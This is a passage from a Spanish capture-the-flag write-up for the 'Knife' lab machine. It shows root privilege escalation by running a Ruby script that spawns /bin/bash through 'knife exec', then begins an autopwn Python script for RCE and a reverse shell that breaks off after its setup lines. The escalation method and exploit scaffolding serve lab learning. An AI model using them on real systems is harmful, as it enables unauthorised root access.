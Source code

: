 El problema de esto es que no sabremos que tipo de script será el que tenemos que proporcionarle, por lo que tendremos que investigar un poco más sobre ello.

Nos dirigiremos a la [documentación sobre la función exec de knife](https://docs.chef.io/workstation/knife_exec/):

<img src="https://i.imgur.com/oiodYLA.png" width=700>

Podremos ver como los scripts que ejecuta son en el lenguaje [Ruby](https://www.ruby-lang.org/es/downloads/) por lo que nos construiremos un script sencillo que nos spawnee una shell:

```ruby
File: knifeShell.rb

#!/usr/bin/ruby -w

system("/bin/bash")
```

Lo último que nos quedará por hacer será ejecutar la herramienta knife con los permisos del usuario root y mediante el parámetro exec proporcionarle nuestro script en [Ruby](https://www.ruby-lang.org/es/downloads/):

<img src="https://i.imgur.com/kOefV8v.png" width=400>

Por último, obtendremos una shell como el usuario root y visualizaremos la flag root.txt que se encuentra en el directorio /root.

<br>

## Autopwn
Ya que estamos ante una escalada y una intrusión sencillas, automatizaremos estas dos con un script en [Python3](https://www.python.org/downloads/):

```python
File: autopwn.py

#!/usr/bin/python3
#coding: utf-8


# Knife Machine Autopwn
# Author: Gaizka Martin (a.k.a g2jz)


import requests
import sys
import threading
import time


from pwn import *


# Variables globales
lport = 443


# Sesion HTTP
s = requests.Session()


# Barras de progreso
p1 = log.progress("RCE")
p2 = log.progress("Reverse Shell")

```